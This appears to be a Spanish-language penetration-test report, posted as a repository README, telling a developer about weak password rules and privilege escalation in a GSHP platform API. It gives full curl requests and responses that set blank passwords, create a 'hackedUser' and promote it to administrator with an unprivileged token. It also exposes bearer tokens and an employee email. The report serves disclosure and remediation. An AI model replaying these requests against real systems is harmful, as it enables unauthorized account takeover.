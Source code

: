 # tareas
tareas para GSHP plataforma


ons
¡Que tal Kelly!

Aquí te envió el resultado de las pruebas de seguridad.


Vulnerabilidad: Longitud de contrasenias es muy corta.
Descripcion: El sitio permite establecer e iniciar sesion contrasenas de un solo caracter (incluso espacios en blanco).
Nivel de Riesgo: medio
Solucion: Establecer una politica de contrasenas que establezca la longitud minima a 8 caracteres con mayusculas, minusculas, caracteres especiales con una secuencia evitando caracteres consecutivos similares  (aaa, bbb, ccc), secuencias numericas
monotonas (123456789, 987654321) o palabras contenidad en un diccionario.

Actualizando la contrasenia

Peticion

curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps" -H "Origin: https://api-backend.gshp-apps.com:40010" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Host: api-backend.gshp-apps.com:40000" -d '{"user":"unprivileged","email":"unprivileged@company.com","password":" ","roleId":2}' https://api-backend.gshp-apps.com:40000/user

Respuesta
{"user":"unprivileged","email":"unprivileged@company.com","password":" ","roleId":2,"statusId":1}


Iniciando Sesion

Peticion
curl -X POST -H "Content-Type: application/json" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Origin: https://api-backend.gshp-apps.com:40010" -d '{"username":"unprivileged@company.com","password":" "}' https://api-backend.gshp-apps.com:40000/auth/login

Respuesta
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUyNTAwM30.iHpqOqQwaigx9pSZuXyRlAhkXVrI0AYIhIUX5vlafNY","user":{"email":"unprivileged@company.com","user":"unprivileged","password":" ","roleId":2,"statusId":1}}


********************************************************************************************************
Vulnerabilidad: Escalacion de privilegios
Descripcion: el sitio permite a un usuario no privilegiado con un token de sesion (unprivileged@company.com), acceder y consumir todos los endpoints que estan destinados para un administrador.
Nivel de Riesgo: critico
Solucion: Es necesario que todas las funciones administrativas validen el rol del usuario antes de servir las peticiones.


Iniciando sesión

curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Impvc3ltYXIudHJ1amlsbG9AZ28tc2hhcnAuY29tIiwiaWF0IjoxNjA2NTEyNzMzfQ.f37ppfIouIrOGZlChko811urriMBjD3jDxGBTDp9QwU" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Origin: https://api-backend.gshp-apps.com:40010" -d '{"username":"unprivileged@company.com","password":"123456"}' https://api-backend.gshp-apps.com:40000/auth/login
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps","user":{"email":"unprivileged@company.com","user":"unprivileged","password":"123456","roleId":2,"statusId":1}}

Actualizando contraseña

Petición
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps" -H "Origin: https://api-backend.gshp-apps.com:40010" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Host: api-backend.gshp-apps.com:40000" -d '{"user":"unprivileged","email":"unprivileged@company.com","password":"987654321","roleId":2}' https://api-backend.gshp-apps.com:40000/user

Respuesta
{"user":"unprivileged","email":"unprivileged@company.com","password":"987654321","roleId":2,"statusId":1}j


Crear otros usuarios

curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps" -H "Origin: https://api-backend.gshp-apps.com:40010" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Host: api-backend.gshp-apps.com:40000" -d '{"user":"hackedUser","email":"hackedUser@company.com","password":"hackedUser","roleId":2}' https://api-backend.gshp-apps.com:40000/user

{"user":"hackedUser","email":"hackedUser@company.com","password":"hackedUser","roleId":2,"statusId":1}


Cambiar role a usuario no privilegiado a usuario Administrador.

curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps" -H "Origin: https://api-backend.gshp-apps.com:40010" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Host: api-backend.gshp-apps.com:40000" -d '{"user":"hackedUser","email":"hackedUser@company.com","password":"hackedUser","roleId":1}' https://api-backend.gshp-apps.com:40000/user


Rechazar Queries

Peticion
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps" -H "Origin: https://api-backend.gshp-apps.com:40010" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Host: api-backend.gshp-apps.com:40000" -d '{"id":1,"query":"select malo","comments":"Porfa","dbId":1,"userName":"josymar.trujillo@go-sharp.com","statusId":1,"rejectMssg":"El select tiene un error de sintaxis"}'  https://api-backend.gshp-apps.com:40000/query/reject-query

Respuesta
{"id":1,"query":"select malo","comments":"Porfa","dbId":1,"userName":"josymar.trujillo@go-sharp.com","statusId":3,"rejectMssg":"El select tiene un error de sintaxis"}


Aprobar queries

Peticion
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InVucHJpdmlsZWdlZEBjb21wYW55LmNvbSIsImlhdCI6MTYwNjUxOTYwMn0.F8E1rwD3AoY851Y40a87n-xePuXu9WK2jNSnRS_hgps" -H "Origin: https://api-backend.gshp-apps.com:40010" -H "Referer: https://api-backend.gshp-apps.com:40010/" -H "Host: api-backend.gshp-apps.com:40000" -d '{"id":5,"query":"Error en conexion de la base","comments":"error prueba","dbId":3,"userName":"josymar.trujillo@go-sharp.com","statusId":1,"rejectMssg":""}'  https://api-backend.gshp-apps.com:40000/query/approve-query

Respuesta
{"error": true,"typeError":"CONN_ERROR"}


También es importante que el sitio cierre la sesión después de cierto tiempo de inactividad e invalide los tokens de sesión.


Cualquier duda o comentario, me lo pueden hacer llegar por este medio.

¡¡Saludos!!
